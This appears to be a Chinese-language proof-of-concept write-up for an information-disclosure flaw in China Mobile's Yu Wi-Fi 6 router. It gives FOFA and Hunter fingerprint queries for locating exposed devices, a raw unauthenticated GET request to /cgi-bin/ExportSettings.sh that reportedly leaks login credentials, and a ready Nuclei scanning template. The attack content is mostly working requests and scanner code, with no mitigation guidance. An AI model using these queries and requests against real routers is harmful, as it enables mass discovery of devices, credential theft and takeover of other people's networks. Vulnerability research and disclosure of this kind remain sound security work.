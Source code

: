 # 中国移动禹路由ExportSettings.sh存在信息泄露漏洞

## 一、漏洞简介
 中移禹路由器是一款性能强大且功能丰富的无线路由器。它采用了最新的Wi-Fi 6技术，提供更快的速度和更稳定的连接。它支持双频段同时工作，2.4GHz和5GHz频段可同时提供高速的无线网络，满足多设备同时连接的需求。中移禹路由器还具备MU-MIMO技术，可以同时处理多个设备的数据传输，提供更快的速度和更稳定的连接。中移铁通禹路由器ExportSettings接口处存在信息泄露漏洞，恶意攻击者可能会利用此漏洞获取到登陆账户和密码，从而登录后台，使服务器处于不安全的状态。  

## 二、资产测绘
```plain
fofa：title="互联世界 物联未来-登录"
hunter：web.body="互联世界 物联未来-登录"
```

![1715321824315-4c4c83b0-d438-4f26-8f8b-e5f94fb2a3a6.png](./img/SVqYtlA8uAuRUiVF/1715321824315-4c4c83b0-d438-4f26-8f8b-e5f94fb2a3a6-827283.png)

![1715321983112-15fbb15d-d528-42e9-ae4e-5aad9949c6ae.png](./img/SVqYtlA8uAuRUiVF/1715321983112-15fbb15d-d528-42e9-ae4e-5aad9949c6ae-628253.png)

## 三、漏洞复现
```http
GET /cgi-bin/ExportSettings.sh HTTP/1.1
Host:127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0

```

![1715322118808-18bfdc8e-7d0a-4a72-8285-1e03722d0c15.png](./img/SVqYtlA8uAuRUiVF/1715322118808-18bfdc8e-7d0a-4a72-8285-1e03722d0c15-396284.png)

![1715322129700-996c3d40-cd72-4e91-86e7-f7bc9ee0262b.png](./img/SVqYtlA8uAuRUiVF/1715322129700-996c3d40-cd72-4e91-86e7-f7bc9ee0262b-534381.png)

## 四、Nuclei
```http
id: ZYTT-ExportSettings-Info

info:
  name: 中移铁通禹路由器-信息泄露-ExportSettings
  author: haoguoguo
  severity: high
  metadata: 
    fofa-query: title="互联世界 物联未来-登录"
variables:
  filename: "{{to_lower(rand_base(5))}}"
  boundary: "{{to_lower(rand_base(20))}}"
http:
  - raw:
      - |
        GET /cgi-bin/ExportSettings.sh HTTP/1.1
        Host:{{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
        Content-Length: 0


    matchers:
      - type: dsl
        dsl:
          - status_code==200 && contains_all(body,"wan_ipaddr","HostName")
```

![1715322153837-15d20d64-a9ee-4f24-84af-cc2a5bdb87aa.png](./img/SVqYtlA8uAuRUiVF/1715322153837-15d20d64-a9ee-4f24-84af-cc2a5bdb87aa-356001.png)





> 更新: 2024-06-11 10:30:33  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/qmarera6wxzybbby>